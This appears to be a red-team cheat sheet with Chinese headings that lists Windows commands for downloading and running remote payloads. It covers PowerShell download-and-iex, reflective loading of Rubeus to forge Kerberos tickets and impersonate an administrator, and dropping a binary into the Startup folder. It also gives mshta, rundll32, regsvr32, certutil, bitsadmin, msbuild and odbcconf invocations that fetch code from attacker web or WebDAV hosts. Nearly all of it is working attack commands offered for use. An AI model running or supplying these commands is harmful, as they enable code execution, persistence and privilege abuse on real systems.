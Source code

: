  #### PowerShell
  	从HTTP服务器
  	>powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

	只下载
	(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
	Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"

	下载并执行带参数的Rubeus
	$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/Rubeus.exe')
	$assem = [System.Reflection.Assembly]::Load($data)
	[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

	从程序集中执行特定方法
	$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/lib.dll')
	$assem = [System.Reflection.Assembly]::Load($data)
	$class = $assem.GetType("ClassLibrary1.Class1")
	$method = $class.GetMethod("runner")
	$method.Invoke(0, $null)
	从webdav服务器
	>powershell -exec bypass -f \\webdavserver\folder\payload.ps1
 #### CMD
  	>cmd.exe /k < \\webdavserver\folder\batchfile.txt
 #### Cscript / Wscript
  	>cscript //E:jscript \\webdavserver\folder\payload.txt
 #### Mshta
  	>mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
	>mshta http://webserver/payload.hta
	>mshta \\webdavserver\folder\payload.hta
 #### Rundll32
  	>rundll32 \\webdavserver\folder\payload.dll,entrypoint
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
 #### Regasm / Regsvc
  	>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
 #### Regsvr32
  	>regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
	>regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
 #### Odbcconf
  	>odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
 #### Msbuild
  	>cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
 #### Certutil
  	>certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
	>certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
 #### Bitsadmin
  	>bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
